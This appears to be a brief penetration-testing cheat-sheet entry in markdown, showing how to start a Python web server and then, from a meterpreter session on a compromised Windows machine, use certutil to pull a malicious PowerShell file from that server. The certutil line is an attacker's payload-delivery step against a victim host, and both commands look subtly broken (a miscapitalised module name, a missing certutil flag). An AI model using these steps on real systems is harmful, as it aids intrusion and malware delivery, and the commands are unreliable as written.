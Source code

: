 # Creating Python Webserver

useful to quickly create to serve files

```bash
python -m SimpleHttpServer $PORT
```

Download file from meterpreter in Windows session:

```bash
certutil -f http://$PYTHON_SERVER:80/$MALICIOUS_FILE.ps1 mal_file.ps1
```
